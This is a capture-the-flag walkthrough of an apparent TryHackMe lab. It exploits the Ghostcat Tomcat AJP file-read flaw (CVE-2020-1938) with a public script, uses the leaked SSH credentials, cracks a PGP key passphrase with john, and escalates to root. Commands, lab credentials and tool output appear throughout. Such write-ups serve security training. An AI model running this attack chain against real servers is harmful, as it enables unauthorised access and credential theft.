 ![image](https://user-images.githubusercontent.com/87468669/209873051-4c188727-24e2-44e3-be32-b6668718d654.png)

First we start with an nmap scan

`nmap -sC -V -T4 -oN nmap.txt <IP>`

```
# Nmap 7.93 scan initiated Wed Dec 28 21:01:35 2022 as: nmap -sC -sV -T4 -oN quickmap.txt -Pn 10.10.193.3
Nmap scan report for 10.10.193.3
Host is up (0.19s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3c89f0b6ac5fe95540be9e3ba93db7c (RSA)
|   256 dd1a09f59963a3430d2d90d8e3e11fb9 (ECDSA)
|_  256 48d1301b386cc653ea3081805d0cf105 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.30
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Dec 28 21:02:48 2022 -- 1 IP address (1 host up) scanned in 72.87 seconds
```

nice we got some interesting ports available, let's start by enumearting port 8080 http.

![image](https://user-images.githubusercontent.com/87468669/209873240-6e4be718-1641-4fc8-ab67-917241f5e7fc.png)

Great the web server is running apache tomcat. Next we enumerate port 8009 ajp13.

Ajp13 (Apache Jserv Protocol) protocol is packet-oriented TCP protocol, by default this service runs on port 8009. AJP13 protocol is a binary format, which is intended for better performance over the HTTP protocol running over TCP port 8080.

What is Ghostcat `CVE-2020–1938` vulnerability?

This is an LFI vulnerability in AJP service. An attacker can exploit Ghostcat vulnerability and read the contents of configuration files and source code files of all webapps deployed on Tomcat.

For example, the /WEB-INF/web.xml file is the Web Root directory who’s access is restricted and cannot be accessed by anyone over HTTP Tomcat server.

![image](https://user-images.githubusercontent.com/87468669/209873669-e2ee0683-3893-4fa2-8397-3546fe0f3060.png)

By exploiting the Ghostcat [CVE-2020–1938] vulnerability, it is possible to read contents of the files in the Web server directory from AJP13 protocol (LFI vulnerability). In this case we will be exploiting this vuln through the /WEB-INF/web.xml. Now let's search for exploit to use on this target.

![image](https://user-images.githubusercontent.com/87468669/209873999-b011b622-c8ad-4d8f-9608-81ae7668fdf9.png)

Found a github exploit, [[exploit]](https://github.com/doggycheng/CNVD-2020-10487) let's clone and run the exploit.

```
python CNVD-2020-10487-Tomcat-Ajp-lfi.py -p 8009 -f "/WEB-INF/web.xml" 10.10.193.3
```

![image](https://user-images.githubusercontent.com/87468669/209874348-5a291d1e-b2a7-42e0-bba6-2563ad226955.png)

Nice we got creds, let's try ssh using the creds `skyfuck:8730281lkjlkjdqlksalks`

![image](https://user-images.githubusercontent.com/87468669/209874968-02e9802e-ff66-4207-bea7-bcf2c8716dbb.png)

Bull's eye we logged in ssh. now let's esc privs.

![image](https://user-images.githubusercontent.com/87468669/209875360-cc2a5378-cebd-4747-a9b2-3d8426a26268.png)

got some file in skyfuck directory, reading the tryhackme.acs contain a pgp key, 

![image](https://user-images.githubusercontent.com/87468669/209875695-8249fa85-9871-4019-91d6-9465800b57da.png)

Download the file into our attacker box from target... now let's check for passphrase

```
┌──(n16hth4wk㉿n16hth4wk-sec)-[~/Documents/THM/tomghost]
└─$ gpg2john tryhackme.asc > hash.txt

File tryhackme.asc
                                                                                                                                                                      
┌──(n16hth4wk㉿n16hth4wk-sec)-[~/Documents/THM/tomghost]
└─$ john -w=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
No password hashes left to crack (see FAQ)
                                                                                                                                                                      
┌──(n16hth4wk㉿n16hth4wk-sec)-[~/Documents/THM/tomghost]
└─$ john --show hash.txt                             
tryhackme:alexandru:::tryhackme <stuxnet@tryhackme.com>::tryhackme.asc

1 password hash cracked, 0 left

```

![image](https://user-images.githubusercontent.com/87468669/209876035-b24205fb-dd8b-470c-9439-7fdd8051bf97.png)

Got the passphrase for the gpg key `alexandru`. now let's import secret key

```
skyfuck@ubuntu:~$ ls
credential.pgp  tryhackme.asc
skyfuck@ubuntu:~$ gpg --allow-secret-key-import --import tryhackme.asc 
gpg: key C6707170: secret key imported
gpg: /home/skyfuck/.gnupg/trustdb.gpg: trustdb created
gpg: key C6707170: public key "tryhackme <stuxnet@tryhackme.com>" imported
gpg: key C6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: Total number processed: 2
gpg:               imported: 1
gpg:              unchanged: 1
gpg:       secret keys read: 1
gpg:   secret keys imported: 1
skyfuck@ubuntu:~$ gpg --decrypt credential.pgp 

You need a passphrase to unlock the secret key for
user: "tryhackme <stuxnet@tryhackme.com>"
1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11 (main key ID C6707170)

gpg: gpg-agent is not available in this session
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123jskyfuck@ubuntu:~$ 
skyfuck@ubuntu:~$ 
skyfuck@ubuntu:~$ 
```

![image](https://user-images.githubusercontent.com/87468669/209877917-ea8fb311-d4f7-40a2-94e7-59d3a12b06a4.png)

great got merlin creds, now let's su into user merlin.

![image](https://user-images.githubusercontent.com/87468669/209879164-3065e3d2-9fbe-476d-b35c-6846804f2d91.png)

now let's check gtfobins for exploit.

![image](https://user-images.githubusercontent.com/87468669/209879565-233632ca-2530-4f26-8dbd-532229502f7b.png)

run that command 

![image](https://user-images.githubusercontent.com/87468669/209880220-6d4138bb-133c-48ca-b4ce-3ebe928b94c7.png)

Boom!!! we are root😎😎











